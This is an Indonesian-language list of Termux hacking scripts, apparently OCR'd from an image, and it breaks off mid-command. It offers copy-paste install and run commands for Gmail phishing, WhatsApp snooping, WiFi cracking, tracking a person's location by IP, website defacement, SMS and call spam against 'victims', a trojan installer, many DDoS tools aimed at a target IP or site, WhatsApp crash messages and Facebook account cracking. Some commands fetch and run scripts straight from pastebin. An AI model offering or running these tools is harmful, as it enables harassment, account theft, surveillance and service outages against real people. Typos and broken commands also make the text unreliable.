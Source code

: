 Ok, Langsung Saja Ke Materi. Sesuai Judul, Disini Saya Akan Memberikan Kumpulan Script Termux Yang Masih Work. Karena, Jarang Sekali Saat Ini Mendapatkan Script Yang Benar-Benar Work.  ✓BOT KOMEN DAN LIKE INSTAGRAM $ pkg update $ pkg upgrade $ pkg install python2 $ pkg install ruby $ gem install lolcat $ pkg install git $git clonehttps://github.com/Hanzelnutt/instabot $ cd instabot $ ls $ pip2 install -r requirements.txt $ bash instabot  ✓PHISING AKUN GMAIL $apt-get update &amp;&amp; apt-get upgrade $ apt-get install git $ apt-get install python python-pip python-setuptools $ pip install scapy $ git clone https://github.com/wifiphisher/wifiphisher.git $ cd wifiphisher&lt; $ python setup.py install $ cd wifiphisher $ python wifiphisher  2. EXPLOIT  ✓SADAP WHATSAPP $ pkg install git python2 $ git clone https://github.com/Bl4ckDr460n/HxWhatsApp $ cd HxWhatsapp $chmod +x HxWhatsApp $ python2 HxWhatsApp.py  ✓CONNECT WIFI TANPA PASWORD $apt update &amp;&amp; apt upgrade $pkg install git $git clone https://github.com/esc0rtd3w/wifi-hacker $cd wifi-hacker/ $chmod +x wifi-hacker.sh $./wifi-hacker.sh  ✓MELACAK LOKASI Script ini menggunakan alamat IP untuk melacak koordinat target. $apt update $apt upgrade $pkg install python git $git clonehttps://github.com/maldevel/IPGeoLocation $cd IPGeoLocation $chmod +x ipgeolocation.py $pip install -r repuirements.txt $python ipgeolocation.py -m $python ipgeolocation.py -h $python ipgeolocation.py -t 10.99.110.220  Ubah alamat IP yang berwarna kuning dengan alamat IP dari orang yang ingin dilacak. Kemudian copas semua koordinat mulai dari https:// ke browser kalian. *✓DEFACE'  Deface merupakan kata dari bahasa ingris yang artinya merusak, mengotori, mencoreng, dan menghapus. Namun dalam dunia hacker deface adalah kegiatan hacking dengan merubah tampilan suatu website. Baik halaman utama maupun halaman yang terkait dalam suatu url. $apt update &amp;&amp; apt upgrade $apt install python2 openssl curl libcurl $pip2 install urllib3 chardet certifi idna requests $mkdir webdav $cd webdav $wget https://pastebin.com/raw/HnVyQPtR $mv HnVyQPtR webdav.py $chmod +x webdav.py  ✓SPAM SMS $pkg install php curl $pkg install curl $curl https://pastebin.com/raw/9BYy1JVc -o jdid.php $php jdid.php  ✓SPAM CALL (TOKOPEDIA) $apt update &amp;&amp; apt upgrade $pkg install php $pkg install git $git clone https://github.com/storiku/Call $cd Call $php spamcall.php  Lalu masukan no hp korban  ✓SC TROJAN (TARGET) $pkg update &amp; pkg upgrade $pkg install git $git clone https://github.com/4L13199/meTAInstall $cd meTAInstall $chmod +x meTAInstall $sh meTAInstall.sh 3.TOOL INSTALLER Tools installer adalah tools yang digunakan untuk menginstal banyak script. Biasanya tools installer dapat menginstal 200-300 script.  ✓TOOLS SCORPION $git clone https://github.com/ScorpRx/ScorpRx-Tools $cd ScorpRx-Tools $chmod +x ScorpRx-Tools.sh $sh ScorpRx-Tools.sh  ✓TOOLS NETHUNTER $apt update $apt install git $git clone https://github.com/Hax4us/Nethunter-In-Termux.git $cd Nethunter $chmod +x kalinethunter $./kalinethunter $./startkali.sh  ✓TOOLS LAZYMUX $pkg update &amp;&amp; upgrade $pkg install python2 git $git clone https://github.com/Gameye98/Lazymux $cd Lazymux $chmod +x lazymux.py $python2 lazymux.py  ✓TOOLS DAIJOBU $apt upgrade &amp;&amp; apt update $apt install php git $git clone https://github.com/alintamvanz/diejoubu $cd diejoubu $cd v1.2 $php diejoubu.php  ✓TOOLS B4J1N94N $git clonehttps://github.com/DarknessCyberTeam/B4J1N64Nv5 $cd B4J1N64Nv5 $sh B4J1N64N.sh  *4. DDOS DDOS attack adalah singkatan dari distributed denial of services yang berfungsi untuk membuat suatu server komputer menjadi tidak bisa dipakai oleh user-nya, dengan menggunakan ribuan system yang menyerang secara bersamaan.  ✓HAMMER $pkg update &amp;&amp; pkg upgrade $pkg install python git $git clone https://github.com/cyweb/hammer $cd hammer $python hammer.py $python hammer.py -s [IP target] -p [PORT] -t 135  ✓LUCINTA DDOS $ apt update &amp;&amp; napt upgrade $ apt install python $ apt install git $ git clone https://github.com/zlucifer/lucita_ddos $ cd lucita_ddos $ chmod +x pukul.py $ python pukul.py  ✓DDOS TROJAN $ pkg update &amp;&amp; pkg upgrade $ pkg install python $ pkg install bash $ pkg install toilet $ pkg install lolcat $ pkg install git $ git clone https://github.com/MrTamfanX/MrDdos $ cd MrDdos $ sh Tamfan-Ddos.sh  ✓Win 32DDOS ATTACK $ apt upgrade&amp;&amp;apt update $ apt install git toilet $ apt install python $ apt install python2 $ git clone https://github.com/banghyuu/ddosWD ‌$ cd ddosWD $ sh Ddos.sh  √XERXES ‌$ apt install git $ apt install clang $ git clone https://github.com/zanyarjamal/xerxes $ ls $ cd xerxes $ ls $ clang xerxes.c -o xerxes $ ls $ ./xerxes (nama website) 80  √TORSHAMMER $ pkg update $ pkg install git $ apt install tor $ pkg install python2 $ git clone https://github.com/dotfighter/torshammer.git $ ls $ cd torshammer $ chmod +x torshammer.oy $ python2 torshammer.py  ✓VANESSA ANGGEL DDOS $ pkg update &amp;&amp; pkg upgrade $ pkg install git $ pkg install python2 $ git clone https://github.com/MiSetya/VA-DDOS $ cd VA-DDOS $ ls $ chmod +x 80juta.py $ ls $ python2 80juta.py  ✓DDOS BY.BLACKCYC $pkg install git $git clone https://github.com/BlackCyberAnonim/B-ATTACKING $cd B-ATTACKING $ls $sh install.Sh  Virtex for Whatsapp  apt update &amp;&amp; apt upgrade  apt install git  apt install curl  apt install figlet  apt install ruby  gem install lolcat  git clone https://github.com/muhammadfathul/VIRTEX  cd VIRTEX  chmod +x virtex.sh  sh virtex.sh  ⚔TOOLS HACK VIA TERMUX⚔  🔰TOOLS HACK FB TEMAN🔰 Versi Terbaru Cracknya Lbh Cepat  $ apt update &amp;&amp; apt upgrade $ pip2 install --upgrade pip $ pip2 install requests $ pip2 install mechanize $ pkg install git $ git clone https://github.com/blackcodercrush/hack-facebook-teman $ cd hack-facebook-teman $ sh requests.sh $ python2 hack-fb.py _______________  🔰Hack Facebook target 🔰  $ apt